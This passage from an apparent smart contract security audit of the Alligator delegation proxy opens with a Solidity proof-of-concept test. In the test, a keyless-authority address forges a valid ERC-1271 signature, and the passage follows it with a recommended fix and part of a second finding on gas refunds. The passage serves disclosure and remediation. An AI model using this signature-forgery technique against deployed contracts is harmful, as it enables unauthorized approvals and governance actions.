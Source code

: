 **Proof of Concept**

Here is a test that can be dropped into `AlligatorV2.t.sol` to show this attack.

```solidity
import {ECDSA} from "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

function testZach__SigningBug() public {
    // create an address from private key = 0x01 that should have no authority
    uint PRIVATE_KEY = 1;
    address signer = vm.addr(PRIVATE_KEY);

    // sign any message with that private key
    bytes32 hash = keccak256(abi.encodePacked("i can make you sign anything"));
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(PRIVATE_KEY, hash);
    bytes memory signature = abi.encodePacked(r, s, v);

    // set the authority chain to be only my own address
    address[] memory authority = new address[](1);
    authority[0] = signer;

    // create the signature data, which consists of authority chain and signature
    bytes memory digest = abi.encode(authority, signature);

    // confirm that the proxy will accept the signature
    assertEq(IERC1271(root).isValidSignature(hash, digest), IERC1271.isValidSignature.selector);
}
```

**Recommendation**

There should be a check in `isValidProxySignature()` to confirm that the authority chain is valid. This can be accomplished by checking that:

```solidity
if (proxy != proxyAddress(authority[0], proxyRules)) revert InvalidAuthorityChain;
```

**Review**

Fixed as suggested in both `AlligatorV2.sol` and `Alligator.sol` in PR #14.

### [H-02] Alligator gives gas refunds but does not receive gas refunds

The `AlligatorV2.sol` contract has a function `castRefundableVotesWithReasonBatched()` which tracks the gas used and provides a refund to the user. This mirrors the functionality used by `NounsLogicV2` to provide voting refunds.

However, while Alligator can provide refunds, there's no way for it to be refunded by the underlying DAO. This is because Nouns (for example) requires a call to `castRefundableVote()` in order to provide a refund, but Alligator simply calls `castVotesWithReasonBatched()` which calls `Nouns.castVoteWithReason()`:

```solidity
function castRefundableVotesWithReasonBatched(
    Rules[] calldata proxyRules,
    address[][] calldata authorities,
    uint256 proposalId,
    uint8 support,
    string calldata reason
) external whenNotPaused {
    uint256 startGas = gasleft();
    castVotesWithReasonBatched(proxyRules, authorities, proposalId, support, reason);
    _refundGas(startGas);
}
```
